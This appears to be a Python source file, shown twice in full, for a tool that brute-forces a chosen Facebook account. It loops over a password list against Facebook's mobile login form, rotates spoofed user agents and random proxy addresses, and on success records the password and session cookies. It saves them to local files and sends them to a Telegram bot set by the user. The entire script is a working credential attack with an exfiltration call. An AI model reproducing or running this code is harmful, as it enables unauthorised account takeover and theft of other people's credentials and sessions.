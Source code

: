 import requests
import time
from bs4 import BeautifulSoup
import random
import os
import threading

user_agent = []

for x in range(1000):
    rr = random.randint
    redmi = f"Mozilla/5.0 (Linux; Android {rr(9,10)}; Redmi Note 9 Pro) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/{rr(0,200)}.0.{rr(500,4000)}.{rr(0,200)} Mobile SFB/{rr(0,150)}.0.{rr(0,5000)}.{rr(0,200)} Mobile Safari/537.36"
    user_agent.append(redmi)

ua = random.choice(user_agent)
ok = 0
no = 0
error = 0
B = '\x1b[38;5;208m'
F = '\033[2;32m'
Z = '\033[1;31m'
C = '\033[2;35m'
M = '\x1b[1;37m'
X = '\033[1;33m'
A = '\033[2;34m'

print(f'''{B}{F}━━━━━━━━━━━━━⧪━━━━━━━━━━━━━{B}
|{Z}[+] YouTube    : {B}| بن احمد سامي
|{Z}[+] TeleGram  : {B} SA5MI2017   |
|{Z}[+] Instagram  : {B}sami1ben2ahamad3 |
|{Z}[+] Tool  : {B} بن احمد سامي |
{F}━━━━━━━━━━━━━⧪━━━━━━━━━━━━━━━━━━ ''')

token = input(B + f'Token BOT: {X}')
print('-' * 60)
ID = input(B + f'ID TELEGRAM : {C}')
print('-' * 60)
idf = input(f'{X}[+] ENTER ID OR EMAIL TO HACK HIM - الايدي او الايميل الذي تريد تخترقه : {M}')
print(f'{M}_' * 60)
file = input(f'{A}[+] ENTER Name of your Combo Password: {C} ')
def Facebook():
    global ok, no, error
    try:
        with open(file, "r") as f:
            for line in f:
                psw = line.strip()

                ip = ".".join(str(random.randint(0, 255)) for _ in range(4))
                pl = [19, 20, 21, 22, 23, 24, 25, 80, 53, 111, 110, 443, 8080, 139, 445, 512, 513, 514, 4444, 2049, 1524, 3306, 5900]
                port = random.choice(pl)
                proxy = ip + ":" + str(port)

                with requests.Session() as session:
                    rr = session.get("https://mbasic.facebook.com/login")
                    soup = BeautifulSoup(rr.content, 'html.parser')
                    uid = soup.find('input', {'name': 'lsd'}).get('value')
                    giz = soup.find('input', {'name': 'jazoest'}).get('value')
                    tok = soup.find('input', {'name': 'li'}).get('value')
                    mmmkk = session.cookies.get_dict()
                    hh = str(mmmkk.get('datr', ''))
                    su = str(mmmkk.get('sb', ''))

                req = session.post('https://mbasic.facebook.com/login/device-based/regular/login/', params={'refsrc': 'deprecated', 'lwv': '100', 'ref': 'dbl'}, cookies={'datr': hh, 'sb': su, 'ps_l': '0', 'ps_n': '0'}, headers={'authority': 'mbasic.facebook.com', 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7', 'accept-language': 'ar-YE,ar;q=0.9,en-YE;q=0.8,en-US;q=0.7,en;q=0.6', 'cache-control': 'max-age=0', 'content-type': 'application/x-www-form-urlencoded', 'dpr': '2', 'origin': 'https://mbasic.facebook.com', 'referer': 'https://mbasic.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8', 'sec-ch-prefers-color-scheme': 'dark', 'sec-ch-ua': '"Not)A;Brand";v="24", "Chromium";v="116"', 'sec-ch-ua-full-version-list': '"Not)A;Brand";v="24.0.0.0", "Chromium";v="116.0.5845.72"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-model': '""', 'sec-ch-ua-platform': '"Linux"', 'sec-ch-ua-platform-version': '""', 'sec-fetch-dest': 'document', 'sec-fetch-mode': 'navigate', 'sec-fetch-site': 'same-origin', 'sec-fetch-user': '?1', 'upgrade-insecure-requests': '1', 'user-agent': str(ua), 'viewport-width': '980'}, data={'lsd': str(uid), 'jazoest': str(giz), 'm_ts': str(time.time()).split('.')[0], 'li': str(tok), 'try_number': '0', 'unrecognized_tries': '0', 'email': str(idf), 'pass': str(psw), 'login': 'تسجيل الدخول', 'bi_xrwh': '0'}, proxies={'http': proxy})

                if "c_user" in session.cookies.get_dict():
                    cook = (";").join(["%s=%s" % (key, value) for key, value in session.cookies.get_dict().items()])
                    ok += 1
                    os.system('cls' if os.name == 'nt' else 'clear')
                    print(f'''
{F}[√]{F}HITS{F} : {X}{ok}{X}
{B}[+]{B}CP{B} : {C}{no}{C}
{Z}[*]{Z}ERORR{Z} : {M}{error}{M}
[√]ID{A} : {idf}{M} | Password{X} : {psw}{M}
[#] BY : @maho_s9
            ''')
                    tlg = (f'''
 Good Login
 -------------+------------+----------------    
 ID = {idf}
 -------------+------------+----------------    
 Password = {psw}
 -------------+------------+----------------    
 Cookies = {cook}
 -------------+------------+----------------    
 BY : @SA5MI2017 | @SA5MI2017
            ''')
                    print(F+tlg)
                    requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text=" + str(tlg))
                    with open('Facebook_OK.txt', 'a') as x:
                        x.write(idf + ":" + psw + '\n' + tlg)
                elif "checkpoint" in session.cookies.get_dict():
                    no += 1
                    cook = (";").join(["%s=%s" % (key, value) for key, value in session.cookies.get_dict().items()])
                    os.system('cls' if os.name == 'nt' else 'clear')
                    print(f'''
{F}[√]{F}HITS{F} : {X}{ok}{X}
{B}[+]{B}CP{B} : {C}{no}{C}
{Z}[*]{Z}ERORR{Z} : {M}{error}{M}
[√]ID{A} : {idf}{M} | Password{X} : {psw}{M}
[#] BY : @maho_s9
            ''')
                    tlg = (f'''
            حساب سيكور
-------------+------------+----------------    
ID = {idf}
-------------+------------+----------------    
Password = {psw}
-------------+------------+----------------    
Cookies = {cook}
-------------+------------+---------------- 
BY : @SA5MI2017 | @SA5MI2017
                ''')
                    print(B+tlg)
                    requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text=" + str(tlg))
                    with open('Facebook_CP.txt', 'a') as x:
                        x.write(idf + ":" + psw + '\n' + tlg)
                else:
                    error += 1
                    os.system('cls' if os.name == 'nt' else 'clear')
                    print(f'''
{F}[√]{F}HITS{F} : {X}{ok}{X}
{B}[+]{B}CP{B} : {C}{no}{C}
{Z}[*]{Z}ERORR{Z} : {M}{error}{M}
[√]ID{A} : {idf}{M} | Password{X} : {psw}{M}
[#] BY : @SA5MI2017
            ''')
    except Exception as e:
        print(f"Error: {e}")
        
Facebook()

import requests
import time
from bs4 import BeautifulSoup
import random
import os
import threading

user_agent = []

for x in range(1000):
    rr = random.randint
    redmi = f"Mozilla/5.0 (Linux; Android {rr(9,10)}; Redmi Note 9 Pro) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/{rr(0,200)}.0.{rr(500,4000)}.{rr(0,200)} Mobile SFB/{rr(0,150)}.0.{rr(0,5000)}.{rr(0,200)} Mobile Safari/537.36"
    user_agent.append(redmi)

ua = random.choice(user_agent)
ok = 0
no = 0
error = 0
B = '\x1b[38;5;208m'
F = '\033[2;32m'
Z = '\033[1;31m'
C = '\033[2;35m'
M = '\x1b[1;37m'
X = '\033[1;33m'
A = '\033[2;34m'

print(f'''{B}{F}━━━━━━━━━━━━━⧪━━━━━━━━━━━━━{B}
|{Z}[+] YouTube    : {B}| بن احمد سامي
|{Z}[+] TeleGram  : {B} SA5MI2017   |
|{Z}[+] Instagram  : {B}sami1ben2ahamad3 |
|{Z}[+] Tool  : {B} بن احمد سامي |
{F}━━━━━━━━━━━━━⧪━━━━━━━━━━━━━━━━━━ ''')

token = input(B + f'Token BOT: {X}')
print('-' * 60)
ID = input(B + f'ID TELEGRAM : {C}')
print('-' * 60)
idf = input(f'{X}[+] ENTER ID OR EMAIL TO HACK HIM - الايدي او الايميل الذي تريد تخترقه : {M}')
print(f'{M}_' * 60)
file = input(f'{A}[+] ENTER Name of your Combo Password: {C} ')
def Facebook():
    global ok, no, error
    try:
        with open(file, "r") as f:
            for line in f:
                psw = line.strip()

                ip = ".".join(str(random.randint(0, 255)) for _ in range(4))
                pl = [19, 20, 21, 22, 23, 24, 25, 80, 53, 111, 110, 443, 8080, 139, 445, 512, 513, 514, 4444, 2049, 1524, 3306, 5900]
                port = random.choice(pl)
                proxy = ip + ":" + str(port)

                with requests.Session() as session:
                    rr = session.get("https://mbasic.facebook.com/login")
                    soup = BeautifulSoup(rr.content, 'html.parser')
                    uid = soup.find('input', {'name': 'lsd'}).get('value')
                    giz = soup.find('input', {'name': 'jazoest'}).get('value')
                    tok = soup.find('input', {'name': 'li'}).get('value')
                    mmmkk = session.cookies.get_dict()
                    hh = str(mmmkk.get('datr', ''))
                    su = str(mmmkk.get('sb', ''))

                req = session.post('https://mbasic.facebook.com/login/device-based/regular/login/', params={'refsrc': 'deprecated', 'lwv': '100', 'ref': 'dbl'}, cookies={'datr': hh, 'sb': su, 'ps_l': '0', 'ps_n': '0'}, headers={'authority': 'mbasic.facebook.com', 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7', 'accept-language': 'ar-YE,ar;q=0.9,en-YE;q=0.8,en-US;q=0.7,en;q=0.6', 'cache-control': 'max-age=0', 'content-type': 'application/x-www-form-urlencoded', 'dpr': '2', 'origin': 'https://mbasic.facebook.com', 'referer': 'https://mbasic.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8', 'sec-ch-prefers-color-scheme': 'dark', 'sec-ch-ua': '"Not)A;Brand";v="24", "Chromium";v="116"', 'sec-ch-ua-full-version-list': '"Not)A;Brand";v="24.0.0.0", "Chromium";v="116.0.5845.72"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-model': '""', 'sec-ch-ua-platform': '"Linux"', 'sec-ch-ua-platform-version': '""', 'sec-fetch-dest': 'document', 'sec-fetch-mode': 'navigate', 'sec-fetch-site': 'same-origin', 'sec-fetch-user': '?1', 'upgrade-insecure-requests': '1', 'user-agent': str(ua), 'viewport-width': '980'}, data={'lsd': str(uid), 'jazoest': str(giz), 'm_ts': str(time.time()).split('.')[0], 'li': str(tok), 'try_number': '0', 'unrecognized_tries': '0', 'email': str(idf), 'pass': str(psw), 'login': 'تسجيل الدخول', 'bi_xrwh': '0'}, proxies={'http': proxy})

                if "c_user" in session.cookies.get_dict():
                    cook = (";").join(["%s=%s" % (key, value) for key, value in session.cookies.get_dict().items()])
                    ok += 1
                    os.system('cls' if os.name == 'nt' else 'clear')
                    print(f'''
{F}[√]{F}HITS{F} : {X}{ok}{X}
{B}[+]{B}CP{B} : {C}{no}{C}
{Z}[*]{Z}ERORR{Z} : {M}{error}{M}
[√]ID{A} : {idf}{M} | Password{X} : {psw}{M}
[#] BY : @maho_s9
            ''')
                    tlg = (f'''
 Good Login
 -------------+------------+----------------    
 ID = {idf}
 -------------+------------+----------------    
 Password = {psw}
 -------------+------------+----------------    
 Cookies = {cook}
 -------------+------------+----------------    
 BY : @SA5MI2017 | @SA5MI2017
            ''')
                    print(F+tlg)
                    requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text=" + str(tlg))
                    with open('Facebook_OK.txt', 'a') as x:
                        x.write(idf + ":" + psw + '\n' + tlg)
                elif "checkpoint" in session.cookies.get_dict():
                    no += 1
                    cook = (";").join(["%s=%s" % (key, value) for key, value in session.cookies.get_dict().items()])
                    os.system('cls' if os.name == 'nt' else 'clear')
                    print(f'''
{F}[√]{F}HITS{F} : {X}{ok}{X}
{B}[+]{B}CP{B} : {C}{no}{C}
{Z}[*]{Z}ERORR{Z} : {M}{error}{M}
[√]ID{A} : {idf}{M} | Password{X} : {psw}{M}
[#] BY : @maho_s9
            ''')
                    tlg = (f'''
            حساب سيكور
-------------+------------+----------------    
ID = {idf}
-------------+------------+----------------    
Password = {psw}
-------------+------------+----------------    
Cookies = {cook}
-------------+------------+---------------- 
BY : @SA5MI2017 | @SA5MI2017
                ''')
                    print(B+tlg)
                    requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text=" + str(tlg))
                    with open('Facebook_CP.txt', 'a') as x:
                        x.write(idf + ":" + psw + '\n' + tlg)
                else:
                    error += 1
                    os.system('cls' if os.name == 'nt' else 'clear')
                    print(f'''
{F}[√]{F}HITS{F} : {X}{ok}{X}
{B}[+]{B}CP{B} : {C}{no}{C}
{Z}[*]{Z}ERORR{Z} : {M}{error}{M}
[√]ID{A} : {idf}{M} | Password{X} : {psw}{M}
[#] BY : @SA5MI2017
            ''')
    except Exception as e:
        print(f"Error: {e}")
        
Facebook()
